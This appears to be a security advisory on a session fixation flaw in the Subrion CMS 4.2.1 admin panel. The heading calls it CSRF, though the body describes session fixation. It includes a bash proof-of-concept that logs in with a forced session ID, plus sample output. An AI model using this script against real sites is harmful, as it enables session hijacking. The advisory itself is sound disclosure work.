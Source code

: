 # Web Admin Interface - Cross-Site-Request-Forgery (CSRF)

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is an unknown code. The manipulation of the session cookie with an arbitrary alphanumeric value prior to the login leads to a session fixation vulnerability. Using CWE to declare the problem leads to CWE-384. Impacted is integrity. An attacker might be able hijacking the user-validated session by forcing an arbitrary session ID.

The weakness was presented 04/12/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-XXXX. The attack may be launched remotely. No form of authentication is required for exploitation. Technical details are known but no exploit is publicly available.

## Proof-of-Concept

**Sample affected URL**

* http://subrion.local/panel/

Submitting a valid login with a crafted session ID, causes the ID to be reflected and set as a valid session identifier.

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"

# Grep Session Cookie Name
sess_cookie_name=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*")
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Fix the Session Cookie Value and login
curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "Cookie: loader=loaded; $sess_cookie_name=00000000000000000000000000" -i | grep "Set-Cookie"

```

Using the above script should give the following output, proving the vulnerability.

```
$ ./sess_fix.sh
Set-Cookie: INTELLI_06c8042c3d=00000000000000000000000000; expires=Sun, 12-Apr-2020 16:07:44 GMT; Max-Age=1800; path=/
Set-Cookie: salt=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
```


## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://owasp.org/www-community/attacks/Session_fixation](https://owasp.org/www-community/attacks/Session_fixation)



 
